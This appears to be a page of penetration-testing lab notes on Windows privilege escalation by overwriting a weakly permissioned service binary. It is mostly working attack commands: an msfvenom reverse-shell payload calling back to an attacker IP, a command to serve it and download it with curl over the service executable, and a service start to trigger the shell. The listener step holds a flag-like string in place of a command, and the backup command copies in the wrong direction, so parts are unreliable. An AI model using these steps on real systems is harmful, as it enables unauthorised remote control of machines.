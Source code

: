 
### Replacing Service Binary

This service is also startable by unprivileged users. 

We will:

1. make a backup of the original binary
2. Create a malicious binary with msfvenom
3. Download it in the target host and replace the original
4. Set a listener
5. Establish the connection

We can make a backup of the original binary: 

```cmd-session
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

Create  a malicious binary generated with `msfvenom` in out attacking machine:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.158 LPORT=8443 -f exe > SecurityService.exe
```

Serve the malicious file:

```
python3 -m http.server 8080
```

Download it from the target host to the needed location:

```
curl http://10.10.14.158:8080/SecurityService.exe -O "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

Set a listener:

```bash
Aud1t_th0se_s3rv1ce_p3rms!
```


Launch the service and get a reverse shell: 

```powershell
sc.exe start SecurityService
```


## Permission with AccessChk

### Running SharpUp

We can use [SharpUp](sharpup.md) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs.

```powershell
.\SharpUp.exe audit
```
